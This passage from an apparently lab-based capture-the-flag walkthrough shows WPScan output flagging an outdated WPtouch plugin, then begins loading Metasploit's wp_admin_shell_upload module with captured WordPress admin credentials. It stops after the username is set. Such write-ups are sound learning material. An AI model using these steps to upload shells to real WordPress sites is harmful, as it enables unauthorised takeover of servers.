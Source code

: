```console
 |  Location: http://192.168.1.9/wp-content/plugins/wptouch/
 |  Readme: http://192.168.1.9/wp-content/plugins/wptouch/readme.txt
[!] The version is out of date, the latest version is 4.3.2

[!] Title: WPtouch Mobile Plugin <= 3.7.5.3 - Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7920
    Reference: https://blog.sucuri.net/2015/04/security-advisory-xss-vulnerability-affecting-multiple-wordpress-plugins.html
[i] Fixed in: 3.7.6

[+] Finished: Fri Sep 30 22:38:32 2016
[+] Requests Done: 1441
[+] Memory used: 139.449 MB
[+] Elapsed time: 00:00:35
```

A ton of possible [XSS Vulnerabilities](https://en.wikipedia.org/wiki/Cross-site_scripting), and a lot of outdated versions. Unfortunately I don't see any [RCE Exploits](http://searchwindowsserver.techtarget.com/definition/remote-code-execution-RCE), or anything particularly good that we can use against the host.

Since I already have admin credentials, and I'm logged in... let's just go ahead and see if we can upload an [admin shell](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload). We will be using [Metasploit](https://www.metasploit.com/) for this.

```console
root@kali:~# msfconsole

Love leveraging credentials? Check out bruteforcing
in Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.12.23-dev                         ]
+ -- --=[ 1577 exploits - 907 auxiliary - 272 post        ]
+ -- --=[ 455 payloads - 39 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   WordPress



msf exploit(wp_admin_shell_upload) > set USERNAME elliot
USERNAME => elliot
```